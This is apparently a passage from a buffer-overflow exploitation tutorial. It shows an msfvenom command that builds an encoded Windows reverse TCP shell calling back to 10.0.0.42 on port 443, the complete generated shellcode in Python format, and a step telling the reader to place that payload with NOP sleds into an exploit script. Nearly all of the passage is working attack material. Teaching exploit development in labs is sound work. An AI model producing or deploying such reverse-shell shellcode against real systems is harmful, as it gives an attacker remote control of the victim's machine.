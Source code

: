 *Note that `windows/shell_reverse_tcp` is not the same as `windows/shell/reverse_tcp`. Also take note of the bad characters string to prevent
shellcode from using those characters. Lastly, outputting in C format has enabled better encoding in the past, but feel free to output in Python format for quicker integration, as this example does.*

```
root@kbox:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.42 LPORT=443 -f python -b \x00\x19\x1a\x1b\x1c -v payload
  No platform was selected, choosing Msf::Module::Platform::Windows from the payload
  No Arch selected, selecting Arch: x86 from the payload
  Found 10 compatible encoders
  Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
  x86/shikata_ga_nai succeeded with size 351 (iteration=0)
  x86/shikata_ga_nai chosen with final size 351
  Payload size: 351 bytes
  Final size of python file: 1838 bytes
  payload =  ""
  payload += "\xdb\xdd\xd9\x74\x24\xf4\x5b\xba\x8e\x23\x03\x8f"
  payload += "\x29\xc9\xb1\x52\x83\xeb\xfc\x31\x53\x13\x03\xdd"
  payload += "\x30\xe1\x7a\x1d\xde\x67\x84\xdd\x1f\x08\x0c\x38"
  payload += "\x2e\x08\x6a\x49\x01\xb8\xf8\x1f\xae\x33\xac\x8b"
  payload += "\x25\x31\x79\xbc\x8e\xfc\x5f\xf3\x0f\xac\x9c\x92"
  payload += "\x93\xaf\xf0\x74\xad\x7f\x05\x75\xea\x62\xe4\x27"
  payload += "\xa3\xe9\x5b\xd7\xc0\xa4\x67\x5c\x9a\x29\xe0\x81"
  payload += "\x6b\x4b\xc1\x14\xe7\x12\xc1\x97\x24\x2f\x48\x8f"
  payload += "\x29\x0a\x02\x24\x99\xe0\x95\xec\xd3\x09\x39\xd1"
  payload += "\xdb\xfb\x43\x16\xdb\xe3\x31\x6e\x1f\x99\x41\xb5"
  payload += "\x5d\x45\xc7\x2d\xc5\x0e\x7f\x89\xf7\xc3\xe6\x5a"
  payload += "\xfb\xa8\x6d\x04\x18\x2e\xa1\x3f\x24\xbb\x44\xef"
  payload += "\xac\xff\x62\x2b\xf4\xa4\x0b\x6a\x50\x0a\x33\x6c"
  payload += "\x3b\xf3\x91\xe7\xd6\xe0\xab\xaa\xbe\xc5\x81\x54"
  payload += "\x3f\x42\x91\x27\x0d\xcd\x09\xaf\x3d\x86\x97\x28"
  payload += "\x41\xbd\x60\xa6\xbc\x3e\x91\xef\x7a\x6a\xc1\x87"
  payload += "\xab\x13\x8a\x57\x53\xc6\x1d\x07\xfb\xb9\xdd\xf7"
  payload += "\xbb\x69\xb6\x1d\x34\x55\xa6\x1e\x9e\xfe\x4d\xe5"
  payload += "\x49\x0b\x92\xe5\xa3\x63\x90\xe5\xb2\xc8\x1d\x03"
  payload += "\xde\x3e\x48\x9c\x77\xa6\xd1\x56\xe9\x27\xcc\x13"
  payload += "\x29\xa3\xe3\xe4\xe4\x44\x89\xf6\x91\xa4\xc4\xa4"
  payload += "\x34\xba\xf2\xc0\xdb\x29\x99\x10\x95\x51\x36\x47"
  payload += "\xf2\xa4\x4f\x0d\xee\x9f\xf9\x33\xf3\x46\xc1\xf7"
  payload += "\x28\xbb\xcc\xf6\xbd\x87\xea\xe8\x7b\x07\xb7\x5c"
  payload += "\xd4\x5e\x61\x0a\x92\x08\xc3\xe4\x4c\xe6\x8d\x60"
  payload += "\x08\xc4\x0d\xf6\x15\x01\xf8\x16\xa7\xfc\xbd\x29"
  payload += "\x08\x69\x4a\x52\x74\x09\xb5\x89\x3c\x39\xfc\x93"
  payload += "\x15\xd2\x59\x46\x24\xbf\x59\xbd\x6b\xc6\xd9\x37"
  payload += "\x14\x3d\xc1\x32\x11\x79\x45\xaf\x6b\x12\x20\xcf"
  payload += "\xd8\x13\x61"
```

### [2] Add the payload to your script. 

Include your msfvenom command as a comment. Also add a NOP sled before and after your payload.
